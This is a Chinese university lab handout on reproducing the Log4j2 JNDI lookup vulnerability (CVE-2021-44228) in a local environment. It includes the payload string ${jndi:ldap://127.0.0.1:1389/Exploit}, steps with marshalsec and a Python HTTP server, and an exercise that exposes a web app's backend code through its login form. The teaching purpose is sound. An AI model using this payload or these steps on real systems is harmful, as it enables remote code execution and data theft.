




Apache Log4j2漏洞触发
1.实验目的
-
理解Apache Log4j2 漏洞的原理，掌握 Log4j 2 漏洞的触发
-
加深对软件供应链安全的理解
2.实验环境
-
jdk 1.8
-
maven 3.8.4
-
IntelliJ IDEA
3.背景知识
3.1 Log4j 2
Apache Log4j 2 是 Apache 软件基金会下的一个开源的基于 Java 的日志记录工具。该日志框架被大量用于业务系统开发，用来记录日志信息。
2021 年 12 月 9 日晚，Log4j 2 的一个远程代码执行漏洞的利用细节被公开。该漏洞 CVE 编号为 CVE-2021-44228，受影响版本为2.0 <= Apache Log4j < 2.15.0-rc1。该漏洞的主要原理是 Log4j 2 日志框架提供了一种叫做 lookup 的功能，当日志中包括 ${}，lookup 功能就会将表达式的内容替换为表达式解析后的内容，而不是表达式本身。Log4j 2 提供的 lookup 功能支持 JNDI 方式查询。并且在 Log4j 2 中 JNDI 解析是未做限制的，可以直接访问到远程对象，此时远程对象如果是恶意服务的话，那么就会造成注入，也就是说当用户可以控制记录日志时，可以构造恶意字符串来使服务器调用 JNDI 访问恶意对象，从而触发漏洞。
3.2 JNDI
JNDI（Java Naming and Directory Interface），即 Java 命名和目录接口，它提供一个目录系统，并将服务名称与对象关联起来，从而使得开发人员在开发过程中可以使用名称来访问对象。其整体架构分层如下图

JNDI 的实现方式有很多种，目前主要采用 RMI 和 LDAP 的实现方式来复现 Log4j 2 漏洞。
- RMI：java 中的远程方法调用
- LDAP：一个轻量级目录访问协议
以 LDAP 为例，在复现漏洞实现攻击时，我们可以构建一个以 ${ 和 } 为开头和结尾的字符串，例如 ${jndi:ldap://127.0.0.1:1389/Exploit} ，Log4j2 会去解析此字符串，通过 JNDI 下的 LDAP 协议请求到本地1389端口下的 Exploit 恶意 class 文件。
3.3 marshalsec
marshalsec 是一款 Java 反序列化利用工具，本次实验使用 marshalsec 来启动 LDAP 服务
下载完成后在根目录打开 cmd 窗口，执行以下命令打包为 jar
1 | |
执行成功会生成一个 target 文件夹，进入此文件夹，并再打开一个 cmd 窗口，执行以下命令即可启动一个 LDAP 服务
1 | |
3.4 MySQL
MySQL 是一个关系型数据库管理系统，是最流行的关系型数据库管理系统之一。
MySQL 的安装与配置参考这篇博客
3.5 Redis
Redis 是一个高性能的 key-value 存储系统，在 4.2 的 Web 应用中会用到，但安装与否不影响实验
Redis的安装地址
3.6 Python
实验过程中可能需要使用 python 命令来运行一个 http server，需要在本地配置 python 环境。
python 环境的安装和配置请同学们自行 Google。
3.7 JDK 和 Maven
注意下载对应操作系统的 JDK, 并将其添加到环境变量。JDK 和 Maven 的配置：
4.实验步骤
本实验提供 Log4j2Vul 和 White-Jotter 两个文件夹，项目下载地址
4.1 本地触发 Log4j 2 漏洞，弹出计算器
实验 1 的目录结构如下：
Log4j2Vul
1 2 3 4 5 6 7 8 9 10 11 12 | |
实验中需要完善以下文件：
- Log4j2Ldap/src/main/java/com/Log4j2.java
- Exploit.java
我们首先在本地尝试触发 Log4j 2 漏洞，执行一个简单的攻击脚本，打开本地计算器。
- 打开 IDEA，导入所给的 Log4j2Vul 项目中的 Log4j2Ldap 项目
注意此处应导入 Log4j2Ldap 项目，不要导入整个Log4j2Vul
- 此项目引入的 Apache Log4j 为2.12.1版本
1 2 3 4 5 6 7 8 9 10 | |
- 完成打开本地计算器的攻击脚本的编写
1 2 3 4 5 6 7 8 9 10 11 12 | |
提示1：可以使用 Java 的 Runtime.getRuntime().exec() 方法，该方法用于调用外部可执行程序或系统命令。
提示2：Windows 系统打开计算器的命令是
calc.exe
- 将攻击脚本编译为 .class 文件
1 | |
- 使用3.3中提到的 marshalsec 反序列化工具，在 marshalsec 的 target 目录下启动一个 LDAP 服务
1 | |
如果这一步报错提示端口被占用，可通过
netstat -ano | findstr "port_number"查找占用进程，不重要的进程可以直接 kill。如果查找不到占用的进程，参考这篇博客。
- 在 Exploit.class 文件所在目录下启动一个 web 服务，此处建议使用 python 命令启动 web 服务
1 | |
如果为python2则命令为 python -m SimpleHTTPServer 8100，如果本地同时有 python2 和 python3，可以使用命令 python3 -m http.server 8100
- 触发漏洞打开计算器，请补充以下代码
1 2 3 4 5 6 7 8 | |
- 执行代码触发漏洞，应当打开本地电脑的计算器
注意：此处需要关闭电脑的安全防护，否则可能出现电脑自动帮你拦截并删除恶意 class 文件的异常情况

4.2 在Java Web项目中触发漏洞
实验 2 中我们尝试在实际的Java Web项目中触发 Log4j2 的漏洞。目录结构如下：
White-Jotter
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 | |
需要修改的文件：
- src/resources/application.properties
实验步骤：
+ 打开 IDEA，导入所给的 White-Jotter 项目
+ 在 mysql 中创建数据库 wj ，运行 src/main/resources 目录下的数据库脚本 wj.sql。具体方法是，新建数据库 wj，进入 wj 后执行命令 source /path/to/wj.sql 即可导入数据。
+ 启动 Redis 服务（可选）。
+ 修改 src/main/resources 目录下的 application.properties 文件，将数据库用户名和密码以及 Redis 的端口和密码改成自己电脑上对应的端口和密码。
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 | |
- 运行项目，访问 localhost:8443/login，点击左上角“管理中心”进入登录页面。该项目默认用户名为 admin，密码为 123。

- 接着是攻击脚本的编写，这里可以在本地计算机上任意位置新建 Java 文件编写脚本，脚本内容参考4.1步骤中的 Java 脚本，此处应该实现在服务端启动一个静态 Web 服务，请补充以下代码
1 2 3 4 5 6 7 8 9 10 | |
提示：此处可借鉴 4.1 中使用 python 命令启动 web 服务的方式，使用 Runtime.getRuntime().exec() 方法执行 python 命令
- 接着同 4.1 的步骤，使用 marshalsec 启动一个 LDAP 的服务，并将攻击脚本编译为 .class 文件，在 class 文件所在目录下启动一个 web 服务。
- 将 4.1 中触发漏洞时输入的字符串输入账号或者密码框中，触发漏洞实现对网站的攻击，在浏览器中输入 localhost: 加上攻击脚本中启动 web 服务的端口即可成功访问所启动的 web 服务，攻击成功应当可以看到如下图所示的静态网页

- 此时即可任意下载获取 jave web 项目的后端代码以及配置文件。
在重复实验时，如果发现我们在 Exploit 中开启的原本可以访问的静态网页未发送数据，可能是端口被占用了，可以将占用进程 kill 掉
5.实验提交
-
请各位同学独立完成本实验，并提交pdf格式的实验报告。实验报告需包含：
- 实验过程描述 + 关键步骤截图（20%）
- 实验核心代码补充的截图（20%）
- 攻击结果的截图（10%）
- 思考题1：解释实验 1（本地弹计算器）的漏洞触发过程（30%）
- 思考题2：如何防护Apache Log4j2漏洞（20%）
-
实验报告命名为：学号_姓名_lab1.pdf